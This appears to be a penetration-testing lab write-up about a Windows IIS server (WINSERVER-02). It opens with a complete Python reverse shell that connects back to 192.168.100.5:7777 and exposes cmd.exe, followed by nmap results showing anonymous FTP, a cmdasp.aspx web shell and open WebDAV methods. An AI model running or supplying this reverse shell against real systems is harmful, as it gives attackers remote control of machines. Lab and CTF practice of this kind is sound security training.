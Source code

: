 
# **192.168.100.51 WINSERVER-02:**

## I got a shell using this reverse shell script:
	
	import os,socket,subprocess,threading; def s2p(s, p):     while True:         data = s.recv(1024)         if len(data) > 0:             p.stdin.write(data)             p.stdin.flush()  def p2s(s, p):     while True:         s.send(p.stdout.read(1))  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("192.168.100.5",7777))  p=subprocess.Popen(["cmd"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)  s2p_thread = threading.Thread(target=s2p, args=[s, p]) s2p_thread.daemon = True s2p_thread.start()  p2s_thread = threading.Thread(target=p2s, args=[s, p]) p2s_thread.daemon = True p2s_thread.start()  try:     p.wait() except KeyboardInterrupt:     s.close()
	

# **Open Ports:**


	PORT      STATE SERVICE       REASON
	21/tcp    open  ftp           syn-ack ttl 128
	80/tcp    open  http          syn-ack ttl 128
	135/tcp   open  msrpc         syn-ack ttl 128
	139/tcp   open  netbios-ssn   syn-ack ttl 128
	445/tcp   open  microsoft-ds  syn-ack ttl 128
	3389/tcp  open  ms-wbt-server syn-ack ttl 128
	5985/tcp  open  wsman         syn-ack ttl 128
	47001/tcp open  winrm         syn-ack ttl 128
	49152/tcp open  unknown       syn-ack ttl 128
	49153/tcp open  unknown       syn-ack ttl 128
	49154/tcp open  unknown       syn-ack ttl 128
	49155/tcp open  unknown       syn-ack ttl 128
	49160/tcp open  unknown       syn-ack ttl 128
	49170/tcp open  unknown       syn-ack ttl 128



# **Services on Open Ports:**


	PORT     STATE SERVICE            REASON          VERSION
	21/tcp   open  ftp                syn-ack ttl 128 Microsoft ftpd
	| ftp-syst: 
	|_  SYST: Windows_NT
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| 04-19-22  02:25AM       <DIR>          aspnet_client
	| 04-19-22  01:19AM                 1400 cmdasp.aspx
	| 04-19-22  12:17AM                99710 iis-85.png
	| 04-19-22  12:17AM                  701 iisstart.htm
	|_04-19-22  02:13AM                   22 robots.txt.txt
	80/tcp   open  http               syn-ack ttl 128 Microsoft IIS httpd 8.5
	|_http-server-header: Microsoft-IIS/8.5
	| http-methods: 
	|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
	|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
	| http-webdav-scan: 
	|   WebDAV type: Unknown
	|   Server Date: Fri, 30 May 2025 16:04:12 GMT
	|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
	|   Server Type: Microsoft-IIS/8.5
	|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
	|   Directory Listing: 
	|     http://192.168.100.51/
	|     http://192.168.100.51/aspnet_client/
	|     http://192.168.100.51/cmdasp.aspx
	|     http://192.168.100.51/iis-85.png
	|     http://192.168.100.51/iisstart.htm
	|     http://192.168.100.51/robots.txt.txt
	|   Exposed Internal IPs: 
	|_    192.168.100.51
	|_http-svn-info: ERROR: Script execution failed (use -d to debug)
	|_http-title: IIS Windows Server
	135/tcp  open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
	139/tcp  open  netbios-ssn        syn-ack ttl 128 Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds       syn-ack ttl 128 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
	3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 128
	| ssl-cert: Subject: commonName=WINSERVER-02
	| Issuer: commonName=WINSERVER-02
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2025-05-29T15:31:07
	| Not valid after:  2025-11-28T15:31:07
	| MD5:   442b 1b31 fcc4 4465 9edc e84e c593 d085
	| SHA-1: e3f8 eae1 61d2 14b5 d9e2 8bbe f556 1b73 48c0 1d30
	| -----BEGIN CERTIFICATE-----
	| MIIC3DCCAcSgAwIBAgIQEFKbVw632rBOU7+65CrmATANBgkqhkiG9w0BAQsFADAX
	| MRUwEwYDVQQDEwxXSU5TRVJWRVItMDIwHhcNMjUwNTI5MTUzMTA3WhcNMjUxMTI4
	| MTUzMTA3WjAXMRUwEwYDVQQDEwxXSU5TRVJWRVItMDIwggEiMA0GCSqGSIb3DQEB
	| AQUAA4IBDwAwggEKAoIBAQC1m5i58i0Td+RRKmCG2lEcvf6qnV/KouA4WiUc1vHr
	| UfSRKXwSW+oLJnfG/A5A0fEVbuTfnPiGsoq/7/x2wh7ISlJCrh4UuS50yb86C39j
	| GTv0oZHPJ0lWAqxeF8TbtZX1m0nAtRgH1i1R338gdYwR+0IIPQADZbKRdcrPq5p3
	| eL3qqCUFg7xdTnRU673n86Wm1VvgBVoLaNuFIf1hPm+Oyyz8IXFl9VT9fhfMCL2Z
	| rQRZbhYTt5KOak/CSl3XCPsbjsb11f6d+FLGRxqn8riQ8tM5PfnhqkxI6C9wSuqr
	| LQuGk82SJelx6XiXY70Hep0o/cdzCMlqY9QpGB9iUtsHAgMBAAGjJDAiMBMGA1Ud
	| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
	| pKIVC/ZQg59db1iGEMXg17PhsA32dUqHU0qrbvR2g7lXtEUlkGEnETV3MHr4gjS9
	| O1JmxwleCTPjrqLfGxc/SXdKQ248bvQzOZsJ5uORgiwwfA2USVed7gsrqYpsqbU+
	| GiZD0ZI6n4uDRwy6PmGmsCbzyjdvC+JvLoSbnCKWvTOCQoEwf0Ev34IG6kI+gofk
	| QO3MJmc9CwZ86HoTTeEOF8Q1dPq6b7vYkMU2FZNBgqceKlxDSPFD88fREAYP0d0H
	| WePv4VjdlBqlV2beR++fHD1RyNRuLwvgC9LqU/tgPotu55x892Gxebwx+pVKPRtY
	| xnCNJoN5BoJA2RBbUQ3SCg==
	|_-----END CERTIFICATE-----
	|_ssl-date: 2025-05-30T16:04:18+00:00; 0s from scanner time.
	| rdp-ntlm-info: 
	|   Target_Name: WINSERVER-02
	|   NetBIOS_Domain_Name: WINSERVER-02
	|   NetBIOS_Computer_Name: WINSERVER-02
	|   DNS_Domain_Name: WINSERVER-02
	|   DNS_Computer_Name: WINSERVER-02
	|   Product_Version: 6.3.9600
	|_  System_Time: 2025-05-30T16:04:12+00:00
	5985/tcp open  http               syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	47001/tcp open  http    syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-title: Not Found
	|_http-server-header: Microsoft-HTTPAPI/2.0
	
